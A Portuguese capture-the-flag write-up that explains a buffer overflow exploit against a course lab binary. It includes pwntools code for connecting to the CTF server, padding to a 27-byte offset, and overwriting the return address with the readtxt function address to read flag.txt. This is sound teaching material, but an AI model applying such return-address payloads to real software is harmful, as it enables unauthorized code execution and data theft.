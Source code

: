 # Buffer Overflow

O código fornecido explora a vulnerabilidade manipulando o fluxo de execução do programa, redirecionando-o para abrir e ler o arquivo flag.txt.

## Etapas da Exploração

Estabelecimento da Conexão: O código configura uma conexão com o binário, localmente ou remotamente:

    r = remote('ctf-fsi.fe.up.pt', 4000)  # Para servidor remoto

### Identificação do Offset:

 O offset do buffer overflow foi identificado como 27 bytes.


### Localização da Função readtxt:

O endereço da função readtxt foi identificado como 0x080497a5. Esse endereço foi encontrado utilizando ferramentas objdump:

    objdump -d program | grep readtxt

![image](/screenshots/CTF5_1.png)

### Construção do Payload:

O payload é composto por:
- O argumento da função (flag) armazenado no início do buffer.
- Padding para preencher até o offset (27 bytes).
- O endereço da função readtxt sobrescrevendo o endereço de retorno.
- O argumento (flag) repetido, necessário para ser lido corretamente pela função.

O payload final é construído no código da seguinte forma:

    offset = 27  # Offset do buffer overflow
    padding = b"A" * offset
    readtxt_address = 0x080497a5  # Endereço da função readtxt
    argument = b"flag\0"

    payload = b"flag\0" + padding
    payload += p32(readtxt_address)
    payload += b"flag"

### Execução do Ataque:

O payload é enviado após a mensagem inicial do programa:

    r.recvuntil(b"flag:\n")  # Aguarda o prompt do programa
    r.sendline(payload)      # Envia o payload

O programa é explorado para abrir e ler o conteúdo de flag.txt, retornando o resultado ao atacante:

    buf = r.recv().decode()  # Recebe e decodifica a flag
    print(buf)

![image](/screenshots/CTF5_2.png)